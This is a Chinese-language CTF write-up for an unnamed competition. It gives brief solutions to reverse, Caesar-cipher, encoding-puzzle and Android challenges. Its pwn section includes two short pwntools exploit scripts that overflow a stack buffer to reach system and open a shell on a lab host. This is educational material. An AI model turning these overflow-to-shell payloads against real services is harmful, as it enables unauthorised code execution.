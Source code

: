 ```yaml
---
title: 记一次不知名比赛的WP
---
```

# 记一次不知名比赛的WP

# Reverse

## Reverse_签到

找到main函数，就看到了flag

![image-20230620090120146](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620090120146.png)

# Crypto

## easily_Caesar

凯撒解码一把梭，key=24

![image-20230620094549028](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094549028.png)

# Misc

## medium_CTFvalues

16进制转文本得到unicode编码

![image-20230620094134558](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094134558.png)

unicode转ascii码得到base64字符串

![image-20230620094222386](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094222386.png)

![image-20230620094242228](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094242228.png)

base64解码得到一个字符串，然后ascii码转文本

![image-20230620094305264](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620094305264.png)

## difficult_mobile_3

jadx打开然后全局搜索base64，找字符串后进行ascii转字符

![image-20230620121849142](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620121849142.png)

得到，把ip地址进行包裹提交

![image-20230620121956543](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620121956543.png)

# Pwn

## easily_pwn_1

程序分析：64位程序，之开启了NX保护

![image-20230620140607482](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620140607482.png)

代码分析：有一个read函数和write函数，可以发现read函数（这里buf只有0x80字节，而read需要从buf中读取0x200个字节），存在溢出条件。

![image-20230620140450114](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620140450114.png)

然后找是否存在后门函数

![屏幕截图 2023-06-20 140859](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20140859.png)

找到system函数的地址，是简单的栈溢出，找到偏移量为0x80+8，然后覆盖返回地址就可以了

![屏幕截图 2023-06-20 141330](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-20%20141330.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9002)
# io = process("./helloworld")
offset = 0x80 + 8

payload = offset*b'a' + p64(0x40059A)

io.sendline(payload)
io.interactive()
```

## medium_pwn_2

程序分析：32位程序，开启了32位保护

![image-20230620141634557](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620141634557.png)

代码分析：和pwn1一样，看到了read函数，判断存在栈溢出，

![image-20230620141720828](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620141720828.png)

又看到了system函数,但是少了'/bin/sh'

![image-20230620141900964](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620141900964.png)

找到了system函数，/bin/sh参数，以及溢出条件。明显栈溢出

![image-20230620142144275](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620142144275.png)

![image-20230620142020421](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/blog/image-20230620142020421.png)

exp：

```python
from pwn import *
io = remote('192.168.1.1',9006)
# io = process("./helloworld")
offset = 0x88 + 4

payload = offset*b'a' + p32(0x0804845C) + p32(0x0804A024) 

io.sendline(payload)
io.interactive()
```
